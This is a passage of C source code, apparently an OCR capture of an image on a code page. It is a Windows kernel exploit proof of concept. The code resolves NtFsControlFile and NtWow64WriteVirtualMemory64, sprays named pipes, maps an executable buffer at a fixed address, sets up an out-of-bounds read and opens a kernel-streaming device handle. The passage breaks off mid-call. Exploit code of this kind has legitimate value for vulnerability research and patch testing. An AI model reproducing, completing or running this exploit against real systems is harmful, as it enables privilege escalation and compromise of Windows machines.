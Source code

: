 ```
  NTFSCONTROLFILE NtFsControlFile = (NTFSCONTROLFILE) GetProcAddress(LoadLibrary(L "ntdll.dll"), "NtFsControlFile");
  pNtWow64WriteVirtualMemory64 NtWow64WriteVirtualMemory64 = (pNtWow64WriteVirtualMemory64) GetProcAddress(GetModuleHandle(L "ntdll.dll"), "NtWow64WriteVirtualMemory64");

  DWORD targetpid = GetCurrentProcessId();
  if (targetpid == 0) {
    return 0;
  }

  // Pipes for Spraying
  for (int i = 0; i < PIPESIZE; i++) {
    CreateSprayPipe( & pipes[i]);
  }
  CreateSprayPipe( & holder);
  LPBYTE DummyBuffer = (LPBYTE) malloc(0x10000);
  memset(DummyBuffer, 0x77, 0x10000);

  inbuffer = (LPBYTE) malloc(inputsize);
  SIZE_T aligned_size = (outputsize + 0xFFF) & 0xFFFFFFFFFFFFF000;
  outbuffer = (LPBYTE) VirtualAlloc((LPVOID) 0x13370000, aligned_size, MEM_COMMIT | MEM_RESERVE, 0x40);
  outbuffer += (aligned_size - outputsize);

  LPBYTE overwrite_data_ptr = outbuffer + 0x1000 - 0x10;

  memset(inbuffer, 0, inputsize);
  memset(outbuffer, 0x41, outputsize);

  #define OOBSIZE 0x4000
  setupoobread(overwrite_data_ptr, OOBSIZE);

  // GUID DeviceGUID = { 0xcf1dda2c, 0x9743, 0x11d0, {0xa3, 0xee, 0x00, 0xa0, 0xc9, 0x22, 0x31, 0x96} };
  GUID DeviceGUID = {
    0x3c0d501a,
    0x140b,
    0x11d1,
    {
      0xb4,
      0x0f,
      0x00,
      0xa0,
      0xc9,
      0x22,
      0x31,
      0x96
    }
  };
  WCHAR DeviceLink[256] = {
    0,
  };
  CM_Get_Device_Interface_ListW( & DeviceGUID, NULL, DeviceLink, 256, CM_GET_DEVICE_INTERFACE_LIST_ALL_DEVICES);

  HANDLE hDevice = CreateFile(
    DeviceLink,
    GENERIC_READ | GENERIC_WRITE,
    0,
    NULL,
    OPEN_EXISTING,
    0,
    NULL
```